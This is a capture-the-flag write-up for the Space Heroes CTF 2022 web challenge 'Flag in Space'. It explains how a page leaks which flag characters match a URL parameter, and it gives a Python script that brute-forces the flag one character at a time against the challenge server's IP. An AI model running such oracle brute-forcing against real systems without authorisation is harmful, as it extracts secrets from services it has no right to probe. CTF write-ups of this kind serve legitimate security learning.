




# Space Heroes CTF 2022 - Flag in Space (web)

The challenge provides us with a link.



Clicking on the link brings us to page with some black squares. 



I noticed that there is a GET parameter called `flag` in the URL. So I tried to put in the flag format `shctf{`, to see what happens. It turns out that the letters are then shown in the black squares.



From this, we can assume that the characters in the `flag` parameter that match the flag will be displayed on the site. Thus, we can try to bruteforce the flag. We start by appending a single character to `shctf{`, trying all possible characters, and then checking whether the website display matches the input. I wrote a [python script](./solve.py) to do so: 

```python
import requests

base_url = "http://172.105.154.14/?flag="
flag = "shctf{"

while len(flag) < 25:
	for guess in range(33, 127):

		nextchar = chr(guess)
		response = requests.get(base_url + flag + nextchar).text

		# get <div> where flag is displayed
		start = response.find("<div id=\"grid\"")

		# extract characters shown
		body = response[start + 16:-7].replace("<div>","").replace("</div>","")
		result = "".join(body.split())

		# check if website output matches input
		if (result == flag + nextchar):
			
			# update flag
			flag += nextchar
			print(flag)
			break
```

Running the script, gives use the flag.


> shctf{2_explor3_fronti3r}